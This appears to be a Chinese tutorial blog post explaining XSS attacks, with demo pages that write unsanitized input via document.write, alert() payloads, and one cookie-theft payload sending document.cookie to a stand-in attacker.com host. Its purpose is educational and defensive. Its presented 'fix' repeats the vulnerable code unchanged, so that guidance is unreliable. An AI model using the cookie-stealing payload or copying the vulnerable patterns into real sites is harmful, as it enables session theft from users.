 # 用代码演示XSS攻击：如何注入恶意脚本

## 一. 概述

`XSS攻击`是一种常见的Web安全漏洞，它可以让攻击者在受害者的`浏览器中执行恶意脚本`，从而窃取用户的敏感信息或者进行其他恶意行为。本文主要介绍`XSS`的原理和实现方式，并且通过实例来说明如何防范`XSS`攻击。

## 二. XSS攻击的基本原理

`XSS攻击`是指攻击者通过`执行恶意脚本来攻击Web应用程序`，从而在受害者的`浏览器中执行恶意代码`。XSS攻击可以分为两种类型：`存储型XSS`和`反射型XSS`。

### 1. 存储型XSS

`存储型XSS`是指攻击者`将恶意脚本存储在Web应用程序的数据库中`，当用户访问包含恶意脚本的页面时，恶意脚本会被执行。`存储型XSS攻击`通常发生在`留言板`，`评论区`等需要用户输入内容的地方。

### 2. 反射型XSS

`反射型XSS`是指攻击者`将恶意脚本作为参数发送给Web应用程序`，Web应用程序将恶意脚本反射给用户的浏览器，从而执行恶意代码。`反射型XSS攻击`通常发生在`搜索框`，`登录框`等需要用户输入内容的地方。

## 三. XSS攻击的实现方式

`XSS攻击`可以通过多种方式来实现，包括以下几种：

##### 1. HTML注入

攻击者可以在Web应用程序中注入HTML标签和属性，从而执行恶意代码。例如，攻击者可以在留言板中输入以下内容：

```js
js
复制代码<script>alert('XSS攻击')</script>
```

当用户访问包含这个留言的页面时，就会弹出一个提示框内，从而执行恶意代码。

```html
html复制代码<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XSS攻击</title>
</head>

<body>
    <h1>Welcome to my website!</h1>
    <p>Enter your name:</p>
    <input type="text" id="name">
    <button onclick="greet()">Greet</button>
    <script>
        //在input输入框中输入<script>alert('XSS攻击')</script>
        function greet() {
            let name = document.getElementById("name").value;
            document.write("<p>Hello, " + name + "!</p>");
        }
    </script>
</body>

</html>
```

运行截图：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f9948ef7e5774a7ca14bdede68fc8411~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

##### 2. JavaScript注入

攻击者可以在Web应用程序中注入JavaScript代码，从而执行恶意代码。例如：攻击者可以在搜索框中输入以下内容：

```js
js
复制代码<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

当用户在输入框中输入关键字时，就会将用户的Cookie发送给攻击者的服务器，从而窃取用户的敏感信息。

注：[attacker.com/steal.php](https://link.juejin.cn?target=http%3A%2F%2Fattacker.com%2Fsteal.php)。它的名称和URL表明它可能是一个用于窃取用户信息的网站，例如用户名、密码、信用卡信息等。攻击者可能会使用各种技术和手段来欺骗用户，使其在该网站上输入敏感信息，从而实现窃取。因此，用户应该保持警惕，避免在不信任的网站上输入敏感信息，同时使用安全的密码和身份验证方法来保护自己的账户。网站管理员也应该采取措施来保护用户数据，例如使用SSL加密、限制访问、监控异常活动等。

```html
html复制代码<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>JavaScript注入</title>
</head>

<body>
    <h1>Welcome to my website!</h1>
    <p>Enter your name:</p>
    <input type="text" id="name">
    <button onclick="greet()">Greet</button>
    <script>
        function greet() {
            let name = document.getElementById("name").value;
            document.write("<p>Hello, " + name + "!</p>");
            let script = document.createElement("script");
            script.innerHTML = "alert('JavaScript注入xss攻击!')";
            document.body.appendChild(script);
        }
    </script>
</body>

</html>
```

运行截图：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/555d869298be46c494b7b00f54878e5b~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?)

##### 3. URL注入

攻击者可以在url中注入恶意代码，从而执行恶意代码。例如：攻击者可以构造如下url：

```js
js
复制代码http://example.com/search.php?q=<script>alert('XSS攻击')</script>
```

当用户访问这个url时，就会执行恶意代码，从而进行攻击。

注：[example.com/](https://link.juejin.cn?target=https%3A%2F%2Fexample.com%2F)，它不属于任何实际的组织或公司，也没有任何实际的内容。它的目的是为了提供一个可用的域名，供开发人员和测试人员使用，以测试网站和应用程序的功能和性能。该网站通常用于演示和测试目的，不包含任何敏感信息或个人数据。

```html
html复制代码<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>URL注入XSS攻击</title>
</head>

<body>
    <h1>Welcome to my website!</h1>
    <p>Enter your name:</p>
    <input type="text" id="name">
    <button onclick="greet()">Greet</button>
    <script src="script.js"></script>
</body>

</html>
function greet() {
    let name = document.getElementById("name").value;
    document.write("<p>Hello, " + name + "!</p>");
    let url = "http://example.com/search?q=" + encodeURIComponent("<script>alert('XSS攻击')</script>");
    window.location.href = url;
}
```

![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/af9a03ea5b824ee9ba70c1d6bb0c9c46~tplv-k3u1fbpfcp-zoom-in-crop-mark:1512:0:0:0.awebp?) 为了防止URL注入XSS攻击，应该对URL参数进行过滤和转义，以确保它们不包含任何恶意脚本。在这个例子中，使用了encodeURIComponent()函数来对查询参数进行编码，以确保它们不包含任何特殊字符。同时，应该避免在URL中包含未经过滤的用户输入。

```js
//对上述script.js进行修改
function greet() {
    let name = document.getElementById("name").value;
    document.write("<p>Hello, " + name + "!</p>");
    //使用了encodeURLComponent()函数来对查询参数进行编码
    let url = "http://example.com/search?q=" + encodeURIComponent("<script>alert('XSS攻击')</script>");
    window.location.href = url;
}
```

## 四. 总结

`XSS攻击`是一种常见的Web安全漏洞。它可以让攻击者在受害者的`浏览器中执行恶意脚本`，从而窃取用户的敏感信息或者进行其他恶意行为。为了防止XSS攻击，我们可以在`服务器端对用户输入的内容进行过滤和转义`，从而防止恶意脚本的注入。在实际开发中，我们需要注意XSS攻击的规范，以保障Web应用程序的安全性。